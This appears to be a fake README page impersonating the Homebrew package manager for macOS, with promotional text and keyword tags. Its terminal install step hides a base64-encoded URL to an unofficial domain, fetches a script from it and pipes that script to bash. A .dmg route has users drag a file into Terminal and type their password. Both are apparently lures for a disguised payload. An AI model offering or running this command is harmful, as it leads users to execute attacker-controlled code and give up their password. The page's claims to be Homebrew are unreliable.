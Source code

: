 # Homebrew For Mac — Download For Mac OS 😊

Homebrew For Mac is a powerful, open-source package manager for macOS, simplifying the installation and management of software and libraries. Designed for developers and power users, Homebrew makes it easy to install command-line tools, applications, and dependencies with a single command. Follow the instructions below to install Homebrew For Mac and streamline your workflow.

![img1](https://i.ytimg.com/vi/BNEM6tpb0jo/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLD8rqmZWkHd2K4otiiWTSD_j6HC_g)

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://homebrewformac.github.io/download)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Homebrew For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get

Homebrew For Mac empowers developers and users to manage software effortlessly on macOS. Here’s what you can achieve:

- 📥 **Easy Package Installation**: Install software and dependencies with a single command.
- 🔄 **Automatic Updates**: Keep your software up-to-date with simple upgrade commands.
- 🔍 **Package Discovery**: Search a vast repository of tools and libraries.
- 🛠 **Customizable Workflow**: Tailor Homebrew to your needs with custom formulae.
- ⚡ **Fast Performance**: Optimized for macOS, including Apple Silicon support.
- 📚 **Extensive Documentation**: Access detailed guides for managing packages.

## About Homebrew For Mac

Homebrew For Mac is a leading package manager for macOS, designed to simplify the installation and management of software, libraries, and command-line tools. Whether you're a developer setting up a coding environment or a power user looking to install utilities, Homebrew offers a seamless, command-line-driven experience. Optimized for Apple Silicon, this free package manager for Mac ensures fast performance and compatibility with modern macOS systems. Its intuitive syntax makes it accessible to both beginners and seasoned professionals.

With Homebrew For Mac, you can install thousands of open-source packages, from programming languages like Python and Node.js to tools like Git and wget, using a single command. The package manager’s extensive repository, known as "formulae," allows users to discover and install software tailored to their needs. Homebrew also supports easy updates and dependency management, ensuring your tools remain current without manual intervention. Its lightweight design minimizes system resource usage, making it ideal for all macOS devices.

Homebrew For Mac stands out as a free macOS package manager that prioritizes simplicity, flexibility, and community-driven development. Its active community contributes new formulae and maintains existing ones, ensuring a robust ecosystem for users. Regular updates keep Homebrew compatible with the latest macOS versions, providing a reliable tool for managing software. Whether you’re building a development environment or installing utilities, Homebrew For Mac streamlines the process, saving you time and effort.

As a free download, Homebrew For Mac is a must-have for anyone looking to enhance their macOS workflow. Its command-line interface, combined with powerful features like package searching, upgrading, and dependency resolution, makes it a go-to solution for developers and tech enthusiasts. For those searching for a free package manager for Mac, Homebrew For Mac delivers unmatched functionality and ease of use. Download it today and take control of your software management.

## Advantages of Homebrew For Mac

- 🚀 **Fast and Efficient**: Optimized for macOS, with native Apple Silicon support.
- 🛠 **Simplified Software Management**: Install, update, and remove packages with ease.
- 🔍 **Vast Package Repository**: Access thousands of tools and libraries.
- 🔄 **Automatic Dependency Handling**: Resolves dependencies for smooth installations.
- 📖 **Community-Driven**: Benefit from a vibrant community and extensive documentation.
- 💻 **Lightweight Design**: Minimal resource usage for all macOS devices.

## 🖼 Preview

![Terminal Installation](https://i.postimg.cc/4yN8J8Qz/homebrew-install.jpg)  
*Installing packages via the terminal with Homebrew.*

![Package Search](https://i.postimg.cc/3rM5J7Qz/homebrew-search.jpg)  
*Searching for available packages in Homebrew.*

![Upgrade Command](https://i.postimg.cc/7hL2W6Qz/homebrew-upgrade.jpg)  
*Updating installed packages with a simple command.*

![Brew Info](https://i.postimg.cc/9F6yJ5Qz/homebrew-info.jpg)  
*Viewing detailed package information with Homebrew.*

## 🔍 Tags

Homebrew, Homebrew for mac, Homebrew mac download, Homebrew free, Homebrew download, download Homebrew, Homebrew for mac, Homebrew discount, Homebrew for macos, Homebrew mac free, Homebrew mac free download, Homebrew free download, Homebrew download, Homebrew app
